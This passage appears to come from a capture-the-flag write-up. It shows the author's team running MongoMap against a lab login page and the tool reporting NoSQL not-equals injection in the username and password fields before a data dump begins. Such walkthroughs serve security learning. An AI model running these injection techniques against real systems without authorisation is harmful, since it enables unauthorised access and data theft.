 After some enumeration, my team and I found out that the backend of the login page uses MongoDB. To further enumerate if the database is vulnerable to NoSQLi, we used [MongoMap](https://github.com/Hex27/mongomap), and we found that both **Username** and **Password** fields are vulnerable.

>More about NoSQLi:  
>[https://book.hacktricks.xyz/pentesting-web/nosql-injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
{: .prompt-tip }

```shell
[niik@tuf504]-[~/] python3 mongomap.py -u http://admin:Y3tiStarCur\!ouspassword\=admin@10.10.34.245:50628/login.php --method post --data "username=test&password=123"
╔═╗╔═╗╔═══╗╔═╗─╔╗╔═══╗╔═══╗╔═╗╔═╗╔═══╗╔═══╗
║║╚╝║║║╔═╗║║║╚╗║║║╔═╗║║╔═╗║║║╚╝║║║╔═╗║║╔═╗║
║╔╗╔╗║║║─║║║╔╗╚╝║║║─╚╝║║─║║║╔╗╔╗║║║─║║║╚═╝║
║║║║║║║║─║║║║╚╗║║║║╔═╗║║─║║║║║║║║║╚═╝║║╔══╝
║║║║║║║╚═╝║║║─║║║║╚╩═║║╚═╝║║║║║║║║╔═╗║║║───
╚╝╚╝╚╝╚═══╝╚╝─╚═╝╚═══╝╚═══╝╚╝╚╝╚╝╚╝─╚╝╚╝───
By Hex_27
[*] v1.0.0
[+] URL can be reached.


[*] Beginning testing phase.
[*] Testing for param username
[i] Attempting Not-Equals Array (param[$ne]) Injection
[+] username is Not-Equals Array (param[$ne]) Injection injectable!
[i] Attempting Regex Array (param[$regex]) Blind Injection
[i] Attempting Where Always True Function Injection
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where (Function Javascript Evaluation) Blind Injection (JSONStringify)
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where Always True Injection
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where (Functionless String) Blind Injection (JSONStringify)
[*] Basic check failed. The rest of this module may not work.
[+] username is injectible.
[?] Continue testing other parameters? [y/N] y
[*] Testing for param password
[i] Attempting Not-Equals Array (param[$ne]) Injection
[+] password is Not-Equals Array (param[$ne]) Injection injectable!
[i] Attempting Regex Array (param[$regex]) Blind Injection
[i] Attempting Where Always True Function Injection
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where (Function Javascript Evaluation) Blind Injection (JSONStringify)
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where Always True Injection
[*] Basic check failed. The rest of this module may not work.
[i] Attempting Where (Functionless String) Blind Injection (JSONStringify)
[*] Basic check failed. The rest of this module may not work.
[+] password is injectible.

[*] Test phase completed.

[+] Vulnerable Parameters:
[+] username
[+] - Not-Equals Array (param[$ne]) Injection
[+] password
[+] - Not-Equals Array (param[$ne]) Injection

[i] Attempting to dump data...
[*] Parameter: username

[*] Attemping dump with Not-Equals Array (param[$ne]) Injection on param username

```